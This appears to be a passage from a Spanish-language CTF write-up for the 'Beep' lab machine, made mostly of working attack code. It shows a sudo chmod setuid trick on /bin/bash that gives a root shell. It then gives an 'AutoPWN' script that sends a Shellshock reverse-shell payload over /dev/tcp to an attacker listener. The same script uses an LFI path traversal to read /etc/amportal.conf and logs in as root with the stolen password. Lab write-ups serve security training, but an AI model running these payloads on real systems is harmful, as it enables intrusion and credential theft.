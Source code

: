 Alternativamente, también puedes utilizar chmod:

```
bash-3.2$ LFILE=/bin/bash
bash-3.2$ sudo chmod 4755 $LFILE
bash-3.2$ /bin/bash -p
id
uid=100(asterisk) gid=101(asterisk) euid=0(root) groups=101(asterisk)
whoami
root
```

# AutoPWN

Crea el archivo autopwn:

```
vim autopwn-beep.sh
```

Añade el siguiente código:

```shell
#!/bin/bash

ctrl_c(){
	echo "[!] Exiting..."
	exit 1
}

trap ctrl_c INT

shellshock(){
	echo "[+] Shellshock."
	set -m &>/dev/null
    read -p "[+] LHOST: " lhost
	read -p "[+] LPORT: " lport
	nc -lvnp $lport &
    payload=$(timeout 4 curl -sk "https://10.10.10.7:10000/session_login.cgi" -A "() { :; };/bin/bash -i >& /dev/tcp/$lhost/$lport 0>&1")
    fg %1
}

lfi(){
	echo "[+] File disclosure via LFI"
	pass=$(curl -sk "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action" | grep -oP "AMPMGRPASS=(.*)" | cut -d'=' -f 2 | tail -n 1)
	echo "[!] Wait..."
	which sshpass &>/dev/null
	if [ $? -eq 0 ]; then
		sshpass -p "$pass" ssh -oKexAlgorithms=+diffie-hellman-group-exchange-sha1 root@10.10.10.7
	else
		read -p "[+] The package 'sshpass' is not installed, do you want to install it? (yes/no) " answer
		if [ $answer == "yes" ];then
			sudo apt-get update &>/dev/null && sudo apt-get install sshpass -y &>/dev/null
			sshpass -p "$pass" ssh -oKexAlgorithms=+diffie-hellman-group-exchange-sha1 root@10.10.10.7
		else
			echo "[!] If you don't want to install the package you can just login with credentials user=root pass=$pass"
			exit 0
		fi
	fi
}
```